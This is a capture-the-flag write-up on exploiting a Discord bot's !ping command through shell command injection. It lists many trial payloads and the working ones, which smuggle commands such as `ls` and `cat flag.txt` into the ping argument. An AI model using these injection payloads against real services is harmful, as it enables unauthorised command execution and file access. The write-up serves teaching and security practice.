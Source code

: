 # The White Rabbit

![](./img/author-nishacid.svg) ![](./img/category.svg)

![](./img/whiterabbit-desc.png)

## Discovering the bot

In this challenge, we must exchange messages with a Discord bot in DM.

![](./img/whiterabbit-1.png)

Our only command is `!ping`, and it probably does something like `ping challenge$userInput.root-me.org` which is really unsafe because `$userInput` can contain arbitrary bash code.

But before that, I will just try to see what happens when I try to use the bot as intended.

`!ping 01` tells me that `challenge01.root-me.org` is up, and `!ping /` tells me that `challenge/.root-me.org` is down, with an empty error log. Weird, isn't it?

Now let's start our exploit with a simple `!ping ;ls`

![](./img/whiterabbit-2.png)

It doesn't seem to work... maybe the command really is escaped?

## Trying multiple payloads

You may completely skip this part if you don't want to understand how stupid I can be when I've been trying my hardest for 2 days.

In fact, there is a simple mistake in the last command that lead me to believe that there was some kind of injection check.

I've tried many payloads before losing my mind and going full stupid.

![](./img/whiterabbit-3.png)

Other examples include:

- `!ping <(ls)` - I don't really know what I was expecting here, apart from an error

- `!ping !ping ls`

- `:ping ELELELE` - Yep there's a typo

- `!flag`

- `!ping pong`

- `!ping ! && ls` - It only took the `!` part, since it takes only argument 1.

- ``!ping `ls```

- `!ping $(ls)`

- `!ping &&test`

- `!ping "; echo "`

And this, my friends, is when I realized something was going on.

`challenge; echo .root-me.org is down :(`

I can put spaces in my commands! And the `"` are stripped. I won't admit it, but I didn't realize the `"` were just to delimit the arguments that had spaces.

### Stupidity v2

Here is another list of me trying to break something I didn't fully understand:

- `ping ";echo`

- `!ping ";echo`

- `!ping "+"test`

- `!ping "."test`

- `!ping ""test`

- `!ping "`

- `!ping ";`

- `!ping ";#`

- `!ping ";//`

## Abandonning stupidity

When the time has come to stop doing things randomly, I realized something interesting. When running `!ping ".feelzor.ovh challenge"`, I had a different answer than before:

```bash
challenge.feelzor.ovh challenge.root-me.org is down :(
:x: Error log : PING www.root-me.org (212.129.28.16) 56(124) bytes of data.

--- www.root-me.org ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

That is interesting. The error log outputs the standard output, which means two things:

- Anything printed in the error output will be lost forever;

- If I want to see logs, I **must** produce an error somewhere. Here, for example, the real command is `ping challenge.feelzor.ovh challenge.root-me.org`, asking to ping `challenge.root-me.org` **through** `challenge.feelzor.ovh`, which will always fail since my server isn't configured for that.

**What did I miss during my first `ls` payload?**

If we write the command entirely, what has been run is `ping challenge;ls.root-me.org`, and the command `ls.root-me.org` does not exist. In fact, the only thing missing here is a space.

I've struggled a long time with erroneous payloads and was still convinced that there was some kind of protection, so I came up with my "super-protection-evading command-injection":

```bash
!ping ".feelzor.ovh le.root-me.org || ls . 1>&2; ls . "
```

Yup, there are too many things that aren't necessary. I first thought that `error log` could just show the error output, even if I had proof that it wouldn't, and decided to add another `ls` on the standard output because it wouldn't work otherwise.

That being said, I had the list of files, and there is a `flag.txt` file.

```bash
!ping ".feelzor.ovh le.root-me.org || ls . 1>&2; cat flag.txt "
```

This command works and finally shows our flag!

**Flag: `RM{D1sc0rD_t0_c0mm4nd_1nj3cTi0n}`**

## Improving my payload

I was not satisfied with what I had done because at that point I still didn't understand what did and didn't work and why. I wanted to go a little bit further and read all my commands once again, and with the previous explanations it must be clearer.

In fact, there are no protections in place, just a space that I was missing the whole time. With that in mind, we can just add a space to the first payload and have a much cleaner exploit.

```bash
!ping "; cat flag.txt "
```


